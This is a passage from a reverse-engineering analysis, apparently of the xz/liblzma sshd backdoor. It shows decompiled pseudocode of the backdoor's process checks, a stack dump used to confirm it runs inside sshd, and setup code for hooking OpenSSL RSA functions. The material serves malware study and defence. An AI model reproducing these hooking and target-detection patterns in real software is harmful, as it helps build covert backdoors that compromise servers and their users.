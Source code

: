 The pseudocode of the `check_conditions` function is shown below:

```c
Status __fastcall check_conditions(elf_invoke_input *input)
{
  Elf64_Sym *libc_stack_end_sym; // rax
  elf_info_t *elf_info; // rdi
  void **libc_stack_end_off; // r12

  if ( parse_elf(input->ehdr, input->elf_info_list->ld_elf_info_p) == Error )
    return Error;
  libc_stack_end_sym = import_lookup(input->elf_info_list->ld_elf_info_p, STR___libc_stack_end_, STR_GLIBC_2_2_5_);
  if ( !libc_stack_end_sym )
    return Error;
  elf_info = input->elf_info_list->ld_elf_info_p;
  libc_stack_end_off = &elf_info->ehdr->e_ident[libc_stack_end_sym->st_value];
  if ( check_sshd_process(elf_info, *libc_stack_end_off) == Error )
    return Error;
  *input->libc_stack_end = *libc_stack_end_off;
  return Success;
}
```

The checks inside `check_sshd_process` are performed by parsing data located at `libc_stack_end + 8`:

```
[stack]:00007FFFFFFFE550 libc_stack_end  dq 2                    ; DATA XREF: ld_linux_x86_64.so.2:__libc_stack_end↑o
[stack]:00007FFFFFFFE558 process_info    dq offset aUsrSbinSshd  ; DATA XREF: libc.so.6:__libc_argv↑o
[stack]:00007FFFFFFFE558                                         ; ld_linux_x86_64.so.2:_dl_argv↑o
[stack]:00007FFFFFFFE558                                         ; "/usr/sbin/sshd"
[stack]:00007FFFFFFFE560                 dq offset asc_7FFFFFFFE7AA ; "-h"
[stack]:00007FFFFFFFE568                 dq 0
[stack]:00007FFFFFFFE570                 dq offset aShellBinBash ; "SHELL=/bin/bash"
[stack]:00007FFFFFFFE578                 dq offset aSudoGid1000  ; "SUDO_GID=1000"
```

The process of ELF parsing (`parse_elf`) and symbols resolution (`import_lookup`) is documented in [primitives](#elf-parsing).

Following condition checks, the backdoor initialises the `shared_objects_ctx` structure:

```c
...
so_ctx.maps = &elfs;
so_ctx.rela_plt_for_RSA_public_decrypt = &rela_plt_for_RSA_public_decrypt;
so_ctx.rela_plt_for_EVP_PKEY_set1_RSA = &rela_plt_for_EVP_PKEY_set1_RSA;
so_ctx.rela_plt_for_RSA_get0_key = &rela_plt_for_RSA_get0_key;

ftable = input->ftable;
so_ctx.elf_info_list = &elf_info_list;
all_p = ftable->all_p;
so_ctx.standard = &standard;
so_ctx.all_p = all_p;

if ( process_shared_objects(&so_ctx) == Error )
...
```


[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48